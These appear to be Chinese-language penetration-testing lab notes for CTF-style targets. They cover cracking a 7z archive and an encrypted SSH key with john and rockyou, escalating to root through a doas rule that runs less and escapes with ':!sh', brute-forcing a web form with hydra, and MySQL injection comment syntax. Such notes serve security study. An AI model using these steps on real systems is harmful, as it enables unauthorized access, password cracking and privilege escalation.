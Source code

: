 ```
file xx.7z
binwalk xx.7z

暴力破解
7z2john 安装
apt install libcompress-raw-lzma-perl 安装

7z2john xx.7z > xx_hash 生成hash
john --format=7z --wordlist=/usr/share/wordlists/rockyou.txt bachhash
7z x backup.7z
有图片看隐写 有ssh公私钥
file xx*.*
binwalk
exiftool 

file id_rsa id_rsa.pub

公钥有用户
ssh -i id_rsa user@ip
Enter passphrase for key 'id_rsa': 
私钥加密了
john --wordlist=/usr/share/wordlist/rockyou.txt idrsahash

ssh登录上了 他的组有些特别
id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
查找和组相关的文件
find / -group user -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

doas fressdsb opendsb debin 这种操作系统中用 doas == sudo
cat /etc/doas.conf
cat /etc/doas.conf                                                          
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root

保持当前的环境变量 用户 以 root 身份 执行命令 less命令
doas /usr/bin/less  /var/log/authlog
less 是浏览文件内容的命令 v是打开文件编辑
打开文件后 v 用vi 编辑 :!sh提权为root
```



## nullbyte

```
80/tcp    open  http
111/tcp   open  rpcbind
777/tcp   open  multiling-http ssh
53570/tcp open  unknown


80 图片 
exiftool file 找comment 有信息 kzMb5nVYJw
尝试 phpmyadmin 密码
ssh root的密码 尝试
还可能是路径
爆破 hydra 192.168.230.51  http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l ship -P /usr/share/wordlists/rockyou.txt


mysql注入
get 注释-- - --+
```